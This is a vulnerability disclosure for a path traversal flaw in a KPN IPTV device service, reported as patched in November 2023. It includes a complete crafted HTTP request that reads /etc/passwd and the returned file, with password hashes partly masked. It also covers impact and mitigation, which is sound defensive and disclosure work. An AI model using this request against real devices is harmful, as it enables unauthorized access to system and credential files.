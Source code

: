 # KPN IPTV File Path Traversal Vulnerability - PoC (2023)

## Overview

* This report demonstrates a **file path traversal vulnerability** discovered in the KPN IPTV service, which allows an attacker to access sensitive system files, such as `/etc/passwd`, without proper authorization. The vulnerability arises from insufficient input validation, enabling directory traversal by manipulating the URL.

---

## Vulnerability Details

* A **directory traversal** attack (also known as path traversal) occurs when an attacker can craft a URL that accesses files outside the intended directory scope of a web server. By adding `../` sequences, attackers can navigate up the file system and access files that should be restricted, such as configuration files or user information.

### Affected URL:
```plaintext
http://192.168.2.x:8081/Service/Controller/UI?ip=192.168.2.x&port=8081
```

# Proof of Concept (PoC)
* Malicious Request Example

* Using a crafted HTTP request, an attacker can access the sensitive /etc/passwd file. The request can be tested using Burp Suite or another HTTP proxy tool.
*Burp Suite Request:
```
http

GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

* In this request, the attacker exploits the path traversal vulnerability by using ../ sequences to navigate out of the web server’s intended directory structure and access the /etc/passwd file.

# Server Response

* The server responds with HTTP 200 OK, and the contents of the /etc/passwd file are returned. For privacy, the password hashes have been blurred:

plaintext
```
HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh
```

# Explanation of /etc/passwd

* The /etc/passwd file is critical for user management in Unix-based systems. It contains essential information about user accounts, including:

    * Username: The user’s login name.
    * Password hash: (If stored here, although modern systems use /etc/shadow).
    * UID: User ID.
    * GID: Group ID.
    * Home Directory: The path to the user’s home directory.
    * Shell: The default shell assigned to the user.

Although modern systems store password hashes in /etc/shadow, disclosing /etc/passwd can still reveal valuable information for further attacks.
Impact

# Exploiting this vulnerability could result in the following:
```
   * Information Disclosure: Access to /etc/passwd reveals usernames and potentially hashed passwords.
   * Privilege Escalation: Attackers may use the disclosed information to crack passwords and escalate privileges.
   * Further Exploitation: Combined with other vulnerabilities, this attack could lead to unauthorized system access.
```
# Mitigation Strategies

* To prevent directory traversal attacks like this, the following countermeasures should be implemented:

   * Input Validation: Strictly validate and sanitize all user inputs to disallow sequences like ../.
   * Directory Restrictions: Implement proper file permissions and ensure the web server does not allow access to sensitive directories.
   * Web Application Firewalls (WAFs): Deploy WAFs to detect and block malicious URL patterns indicative of path traversal attacks.

# Conclusion

*Path traversal vulnerabilities pose a significant security risk by allowing attackers to access files that should remain confidential. In this case, the KPN IPTV service was found to be vulnerable to directory traversal, which can lead to the exposure of sensitive files like /etc/passwd. Ensuring proper input validation, restricting directory access, and implementing security mechanisms like WAFs are critical to preventing such vulnerabilities.
References

    OWASP: Path Traversal

# affected device 
* Tested on the older IPTV device, (no bluethooth), likely worked on newer types to.

# This been patched !!
* 3 day's after report the bug in november 2023, it was fixed with a critial urgent patch, rolled out in 3 day's


